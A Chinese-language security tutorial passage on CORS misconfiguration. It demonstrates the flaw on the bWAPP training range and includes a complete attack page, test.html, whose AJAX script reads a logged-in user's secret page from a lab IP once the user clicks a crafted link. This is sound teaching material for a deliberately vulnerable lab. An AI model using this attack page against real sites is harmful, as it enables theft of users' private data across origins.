 

### CORS漏洞

**漏洞原理：** 当服务端配置的规则不够合理，导致非同域的资源可以互相访问，例如`Access-Control-Allow-Origin: `。 CORS 反而使同源策略的保护机制土崩瓦解。因此，CORS 漏洞的成因很明显，就是服务端配置的规则不当所导致的。

**bWAPP实例：**

以 BWAPP 靶场 Low 级别的 CORS 漏洞环境作为演示案例：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220428204726.png)

点击secret跳转到如下界面

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220428204813.png)

查看http头：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220428205148.png)

可以看到`Access-Control-Allow-Origin` 的值为`*`,表名所有服务器都可以向其请求数据。

我们可以构造自己的HTML连接给用户，当用户点击后，攻击页面使用ajax就可以直接读取另一个BWAPP网站的目标网页敏感信息，攻击页面源代码如下：

test.html

```html
<!DOCTYPE html>
<html lang="en">
<head></head>
<body>
    <script>
        
        window.onload = function(){
            var xhr =new XMLHttpRequest();// 创建AJAX的对象
            // 设置使用的请求方式
            xhr.open('get','http://10.10.10.128/secret-cors-1.php',true); 
            xhr.send(); // 发送请求
            xhr.onreadystatechange=function(){
                if(xhr.readyState === 4 ){ // 状态 4 表示服务器已响应
                    // 判断正常的响应结果的状态码
                    if(xhr.status >=200 && xhr.status<300 || xhr.status === 304){
                        console.log(xhr.responseText); // 获取响应体内容
                    }else{
                        console.log('0');
                    }
                }
            }
        }
    </script>
</body>
</html>

```

